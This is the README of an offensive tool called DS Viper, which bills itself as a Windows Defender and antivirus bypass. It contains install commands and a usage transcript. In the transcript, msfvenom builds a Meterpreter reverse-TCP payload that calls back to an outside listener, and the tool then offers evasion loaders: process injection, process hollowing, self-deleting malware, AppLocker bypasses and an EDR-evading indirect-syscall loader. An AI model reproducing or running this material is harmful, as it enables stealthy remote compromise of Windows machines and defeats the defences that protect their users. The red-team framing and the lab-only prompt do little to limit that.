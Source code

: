# 🐍 **About DS Viper**

**DS Viper** is a powerful tool designed to **bypass Windows Defender's security mechanisms**, enabling seamless execution of payloads on Windows systems without triggering security alerts. It utilizes a combination of **advanced techniques** to manipulate and disguise payloads, providing cybersecurity professionals, red teamers, and penetration testers with a **robust solution** for achieving undetected access.

Whether you're simulating real-world attacks or conducting comprehensive security audits, **DS Viper** serves as an essential tool for testing and improving system defenses.

> **We are constantly working on DS Viper** to enhance its capabilities, improve evasion techniques, and introduce customizable features such as the ability to add your own payloads or keywords.

---

<p align="center">
  <img src="https://github.com/dagowda/DSViper/blob/1220ebeba489dbb2bdde1c1c11d97d86d905f533/img/screenshot1.jpg" alt="image_alt">
</p>

# ✔️ **Installation**

Clone the repository and set up the environment.

### **Option 1: Manual Installation**
```console
git clone https://github.com/dagowda/DSViper.git
cd DSViper
pip install -r requirements.txt
sudo apt-get update
sudo apt-get install -y mingw-w64
sudo apt install mono-complete
mkdir masm
wget -O masm/uasm_linux64.zip https://www.terraspace.co.uk/uasm257_linux64.zip
unzip masm/uasm_linux64.zip -d masm
chmod +x masm/uasm*
sudo cp masm/uasm /usr/bin/uasm
```

### **Option 2: Scripted Installation (Recommended)**
If you prefer an automated setup, use the provided script:

```console
chmod +x install_dependencies.sh
./install_dependencies.sh
```

---

# ⚙️ **Usage**

Make the `DSViper` binary executable and run it OR just run the python script using python3:

```console
➜  DSViper git:(main) ✗ msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.130.175 LPORT=443 -f raw > payload.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 201798 bytes
➜  DSViper git:(main) ✗ python3 DSViper.py

            
                                                                                                                                                                     
░▒▓███████▓▒░ ░▒▓███████▓▒░      ░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░▒▓███████▓▒░░▒▓████████▓▒░▒▓███████▓▒░                                                                          
░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░             ░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░      ░▒▓█▓▒░░▒▓█▓▒░                                                                         
░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░              ░▒▓█▓▒▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░      ░▒▓█▓▒░░▒▓█▓▒░                                                                         
░▒▓█▓▒░░▒▓█▓▒░░▒▓██████▓▒░        ░▒▓█▓▒▒▓█▓▒░░▒▓█▓▒░▒▓███████▓▒░░▒▓██████▓▒░ ░▒▓███████▓▒░                                                                          
░▒▓█▓▒░░▒▓█▓▒░      ░▒▓█▓▒░        ░▒▓█▓▓█▓▒░ ░▒▓█▓▒░▒▓█▓▒░      ░▒▓█▓▒░      ░▒▓█▓▒░░▒▓█▓▒░                                                                         
░▒▓█▓▒░░▒▓█▓▒░      ░▒▓█▓▒░        ░▒▓█▓▓█▓▒░ ░▒▓█▓▒░▒▓█▓▒░      ░▒▓█▓▒░      ░▒▓█▓▒░░▒▓█▓▒░                                                                         
░▒▓███████▓▒░░▒▓███████▓▒░          ░▒▓██▓▒░  ░▒▓█▓▒░▒▓█▓▒░      ░▒▓████████▓▒░▒▓█▓▒░░▒▓█▓▒░                                                                         
                                                                                                                                                                     
................................................                                                                                                                     
                      AntiVirus Bypass Tool (v.0.2.1)                                                                                                                
---------------------------------------------------------                                                                                                            
Created by Dhanush Gowda(dagowda) and Sumanth Vankineni                                                                                                                  
---------------------------------------------------------                                                                                                            
................................................                                                                                                                     
                                                                                                                                                                     
                                                                                                                                                                     
You sure you want to Continue?(Use it ethically, and in lab enviroments only) y/n: y                                                                                 
Enter your payload choice:                                                                                                                                           
1.)self-injection(XOR)                                                                                                                                               
2.)self-injection(AES)                                                                                                                                               
3.)Process Injection(spoolsv)(Can be used for lateral movement)                                                                                                      
4.)Process Hollow                                                                                                                                                    
5.)Self Deleting Malware(HAVE TO WAIT, CLOSE TO A MINUTE FOR THE PAYLOAD TO EXECUTE)                                                                                 
6.)DLL side-load/rundll32 applocker bypass                                                                                                                           
7.)Process Injection(explorer.exe)                                                                                                                                   
8.)Powershell(Will bypass with cloud detections enabled as well)(Make sure to run this payload twice)(use x64 payload only)                                          
9.)Applocker bypass small shellcodes(Make sure to use x86 payloads)(Also make sure to change the .exe file name after everyrun on the same victim)(Make sure you run this payload twice)                                                                                                                                                  
10.)Applocker bypass Havoc/large shellcodes(use x86 payloads only)                                                                                                   
11.)Indirect Syscall(Windows 10)(Possible EDR bypass loader)                                                                                                         
>2                                                                                                                                                                   
Please type in the shellcode file name: payload.bin                                                                                                                  
Selected self-injection(AES)                                                                                                                                         
[*]Payload successfully created as DSViper_AES.exe
```

---

## 📄 **Notes**
- Ensure you have **Python 3.8+** installed.
- Run the commands in a terminal with the required permissions.


![image_alt](https://github.com/dagowda/DSViper/blob/c9bc60a60bc73fb523a935b8d188fbec5b1521fa/img/screenshot2.png)

## 💀 **References/Resources**
-https://cloud.google.com/blog/topics/threat-intelligence/abusing-dll-misconfigurations
-https://www.youtube.com/@gemini_security
-https://www.vulnlab.com/
-https://github.com/SaadAhla/FilelessPELoader
-https://www.ired.team/
  
